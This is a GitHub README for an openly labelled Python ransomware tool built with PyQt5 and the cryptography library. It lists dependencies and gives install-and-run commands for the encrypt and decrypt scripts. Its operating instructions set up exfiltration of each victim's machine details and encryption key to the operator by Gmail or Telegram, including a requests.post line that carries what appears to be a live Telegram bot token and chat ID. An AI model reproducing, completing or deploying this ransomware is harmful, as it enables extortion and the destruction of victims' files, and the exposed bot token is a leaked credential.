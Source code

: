 # Python Ransomware
Simple Ransomware using Python PyQt5 and Cryptography libraries.
You can make the design you want using the design files.

## Screenshot

![](encrypt_screenshot.png)
![](decrypt_screenshot.png)

## Video
[![](https://www.youtube.com/v=wGwfdWkOal4)]
[![python instagram bot](https://img.youtube.com/vi/wGwfdWkOal4/0.jpg)](https://www.youtube.com/watch?v=wGwfdWkOal4)

## Getting Started

# Requirements
certifi==2021.5.30
cffi==1.14.6
charset-normalizer==2.0.6
cryptography==35.0.0
idna==3.2
pycparser==2.20
PyQt5==5.15.4
PyQt5-Qt5==5.15.2
PyQt5-sip==12.9.0
requests==2.26.0
urllib3==1.26.7

### Operating Instructions

#### 1) Send Email
to be able to send an email<br/>

>1)open your gmail account<br/>
>2)https://myaccount.google.com/ click<br/>
>3)Activate "Less secure app access"<br/>
example:
[![](https://www.youtube.com/watch?v=FVi-m1qmJD0)]

#### 2) Send Telegram (api) Message
Telegram api    (https://core.telegram.org/bots/api)<br/>

>1)open telegram<br/>
>2)search BotFather<br/>
>3)/newbot<br/>
>4)Choose a username for your bot (ransom0wareusername_bot)<br/>

    Use this token to access the HTTP API:
    3416572059:AAGB7p9WAe0jWamE89ftR02MR2WgbxlLZEg

Chat Id<br/>

>1)search Json Dump Bot<br/>
>2)/start<br/>
>3)telegramapi<br/>

    "from": {
        "id": 3213112048, your chat_id

    Send Message Example:

        requests.post("https://api.telegram.org/bot3416572059:AAGB7p9WAe0jWamE89ftR02MR2WgbxlLZEg/sendMessage",
                data={"chat_id": "3213112048", "text": f"Node: {node} Release: {release} \nKey: {str(key)}"})

        requests.post("https://api.telegram.org/bot<your_telegram_api>/sendMessage",
                data={"chat_id": "<your_telegram_chat_id>", "text": f"Node: {node} Release: {release} \nKey: {str(key)}"})


# Installation

```sh
$ git clone https://github.com/alii76tt/python_ransomware
$ cd python_ransomware
$ pip install -r requirements.txt
$ cd Encrypt
$ python3 encrypt.py
$ cd Decrypt
$ python3 decrypt.py
```
